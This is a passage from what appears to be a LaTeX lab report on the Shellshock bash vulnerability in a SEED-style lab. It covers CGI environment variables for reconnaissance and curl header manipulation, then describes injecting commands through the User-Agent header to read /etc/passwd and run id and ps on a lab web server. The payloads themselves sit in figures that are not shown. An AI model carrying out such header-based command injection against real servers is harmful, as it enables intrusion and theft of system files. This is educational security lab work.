    
\includegraphics[width=1.0\linewidth]{Picture/02_shellshock__cgi/02_apache-curl-getenv.cgi.pdf.png}
    \caption{ Listing the environment variables  trough CGI script \lstinline{vul.cgi}}
    \label{fig:apachicgi.curl}
\end{figure}

To be able to exploit a \textit{Shellshock} vulnerability in a \lstinline{bash}-based CGI program, attackers need to pass their data to the vulnerable bash program, and the data need to be
passed via an environment variable. As I reviewed  before in \textit{Section \ref{sec:}} this can be done via environment variables. At first step for this scenario I'll use another CGI program (called \lstinline{getenv.cgi}) on the Web server\ref{apx:seedphp-apache}. 

For a more detailed overview of the build process for the lab environment please refer to \ref{apx:seedphp-apache}. It is also be should noted that scripts that resides within \lstinline{/usr/lib/cgi-bin/} path were made world readable with \lstinline{ chmod 755 /usr/lib/cgi-bin/*.cgi}\cite{bin.chmod}.

As depicted on \textit{Figure \ref{fig:apachicgi.curl}} from  the point of the \textit{Attacker} there are several CGI environment variables\cite{envvar.cgi} which can be useful throughout the initial \textit{reconnaissance}\cite{attck.recon} phase like for example: \lstinline{SERVER_SIGNATURE}, which shows the version number \lstinline{2.4.41} of \textit{Apache Web Server} (also equals to \lstinline{SERVER_SOFTWARE}\cite{envvar.cgi.server-software}) the server's \textit{IP Address}\cite{ipv4proto} \lstinline{10.9.0.5} and the port \lstinline{80} the server is listening on (which also equals to \lstinline{SERVER_PORT}\cite{envvar.cgi.server-port}).

More specifically, the \lstinline{SERVER_SOFTWARE}\cite{envvar.cgi.server-software} meta-variable returns the name and version of the servlet container on which the servlet is running. \lstinline{SERVER_NAME}\cite{envvar.cgi.server-name} returns the host name of the server that received the request. For \textit{HTTP} servlets, it is the same as the value of the CGI variable \lstinline{SERVER_NAME}. \lstinline{SERVER_PORT}\cite{envvar.cgi.server-port} is set to the TCP/IP port number on    which this request is received from the client. 

The \lstinline{SERVER_PROTOCOL}\cite{envvar.cgi.server-protocol} (which takes the value \lstinline{HTTP/1.1}\cite{ip.http.standard}) is set to the name and version of
the application protocol used for this CGI request.  Please note, this differ
from the protocol version used by the server in its communication with the client. \cite{envvar.cgi.server-protocol}
 
 %`SERVER_PROTOCOL   = HTTP-Version | "INCLUDED" | extension-version` where, 'protocol' defines the % syntax of some of the information passing between the server and the script (the 'protocol-specific'
 %   features).

Since the protocol being used is \lstinline{http} \textit{meta-variables} with names beginning with \lstinline{HTTP_} contain values read from the client request header fields. \cite{ip.http.standard, ip.http.methods.} 

Hence  \lstinline{HTTP_HOST}\cite{envvar.cgi.http-host} specifies the Internet host and port number of the resource being requested for all \lstinline{HTTP/1.1} requests. The type and version of the browser the client is using to send the request is passed with \lstinline{HTTP_USER_AGENT}\cite{envvar.cgi.http-user-agent}. \lstinline{HTTP_ACCEPT}\cite{envvar.cgi.http-accept} specifies the content types your browser supports. For example, \lstinline{text/xml}.  

The Request Method, as supplied in the \lstinline{REQUEST_METHOD}\cite{envvar.cgi.request-method,envvar.cgi.request-method.get}  meta-variable, identifies the processing method to be applied by the script in producing a response.

The revision of the CGI specification being used by the server to communicate with the script is passed with \lstinline{GATEWAY_INTERFACE} (value equals to \lstinline{CGI/1.1}).

% SCRIPT_NAME                 =/cgi-bin/getenv.cgi
%  The SCRIPT_NAME variable MUST be set to a URI path (not URL-encoded)
%    which could identify the CGI script (rather than the script's
%    output).  The syntax is the same as for PATH_INFO (section 4.1.5)

%       SCRIPT_NAME = "" | ( "/" path )

% REMOTE_ADDR
% The REMOTE_ADDR variable MUST be set to the network address of the
%    client sending the request to the server.
 
% Returns the IP address of the client that sent the request. For HTTP servlets, the value returned is the same as the % value of the CGI variable REMOTE_ADDR.

Further useful environment variables are for example 
\lstinline{CONTEXT_DOCUMENT_ROOT} regarding the possible path  traversal\cite{attck.dirtraversal} during a later phase of the cyber killchain\cite{mitre.killchain}, \lstinline{QUERY_STRING}\cite{envvar.cgi.query-string}, which contains a URL-encoded search or parameter string:  it provides information to the CGI script to affect or refine the document to be returned by the script. \cite{envvar.cgi.query-string}

As can be seen of \textit{Figure \ref{fig:cgi-curl-verbose}} with the flag \lstinline{-v} \lstinline{curl}'s response makes the output to print out the header of the HTTP request (\lstinline{curl -v www.victim-server.local/cgi-bin/getenv.cgi}): 

\begin{figure}[h]
    \centering
    
\includegraphics[width=1.0\linewidth]{Picture/02_shellshock__cgi/02_apache-curl-v-getenv.cgi.pdf.png}
    \caption{Get verbose response with \lstinline{curl -v}}
    \label{fig:cgi-curl-verbose}
\end{figure}

With flag \lstinline{-A} I'm able to change the \lstinline{HTTP_USER_AGENT}\cite{envvar.cgi.http-user-agent} field's value as can be seen on \textit{Figure \ref{fig:curl.set-user-agent}}

\begin{figure}[h]
    \centering
    
\includegraphics[width=1.0\linewidth]{Picture/02_shellshock__cgi/02_apache-curl-vA-getenv.cgi.pdf.png}
    \caption{Set arbitrary \textit{User-Agent} with \lstinline{curl -A}}
    \label{fig:curl.set-user-agent}
\end{figure}

Furthermore the command can be conjugated with flag \lstinline{-e} which sends the \textit{Referer Page}information to the HTTP server \cite{bin.curl}, in combination with \lstinline{-H} multiple headers can be defined as well, for example:  \lstinline{ curl -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:28.0) Gecko/20100101 Firefox/28.0' -v www.victim-server.local/cgi-bin/getenv.cgi}\cite{bin.curl}.

Now, with the use  of the vulnerable \lstinline{bash} instance for \textit{Shellshock Attack} presented in \textit{Section \ref{ssec:shellshock.attack.setuid}} (\lstinline{bash_shellshock}) I'm able to present the exploitation against the webserver. 

The actual attack does not depend on what is in the \textit{CGI} program, as it targets the \lstinline{bash} program, which is invoked before the actual \textit{CGI script} is
executed. The goal is to launch the attack through the URL
\lstinline{www.victim-server.local/cgi-bin/vul.cgi}, so I can
get the server to run an \textit{arbitrary command}\cite{secdef.ace}. 


% TODO
\subsubsection{Launch \textit{Shellshock Attack} trough custom headers: get back the contents of \lstinline{/etc/passwd}}
\label{sssec:shellshock.exploit.cgi.headers.passwd}

Using the idea from \textit{Listing \ref{lst:shellshock.basic-form} } and combining it with \lstinline{curl}'s \textit{User-Agent} modification capability I'm able to run the command \lstinline{cat /etc/passwd} on the target host \lstinline{ http://10.9.0.5/cgi-bin/vul.cgi}. As a result I get back the contents of the file \lstinline{/etc/passwd} file as can be seen on \textit{Figure \ref{fig:shellshock.exploit.cgi.headers.passwd}}

\begin{figure}[h]
    \centering
    
\includegraphics[width=1.0\linewidth]{Picture/03_shellshock__cgi-exploited/03_bash_shellshock_exploited__cgi-passwd.pdf.png}
    \caption{Contents of Web Server's \lstinline{/etc/passwd} file after explotation of Shellshock vulnerability}
    \label{fig:shellshock.exploit.cgi.headers.passwd}
\end{figure}

%% TODO:
\subsubsection{Launch \textit{Shellshock Attack} trough custom headers: get back the process's user ID with \lstinline{/bin/id}}

Similarly using the idea from \textit{Listing \ref{lst:shellshock.basic-form} } and combining it with \lstinline{curl}'s \textit{User-Agent} modification capability I'm able to run the command \lstinline{cat /etc/id} on the target host \lstinline{ http://10.9.0.5/cgi-bin/vul.cgi}. As a result I get back get back the process's user ID as can be seen of \textit{Figure }

\begin{figure}[h]
    \centering
    
\includegraphics[width=1.0\linewidth]{Picture/03_shellshock__cgi-exploited/03_bash_shellshock_exploited__cgi-id.pdf.png}
    \caption{Get back get back the process's user ID}
    \label{fig:shellshock.exploit.cgi.headers.id}
\end{figure}

Building upon the previous idea with a slight modification I'm able to get back the processes started by the user with \lstinline{ps -efu \$(id -u)}\cite{ps} ,where I print out the processes started by the value of \lstinline{id -u} (\lstinline{\$()} refers to \textit{shell expansion}) as can be seen of \textit{Figure \ref{fig:shellshock.exploit.cgi.headers.psef}}: 

\begin{figure}[h]
    \centering
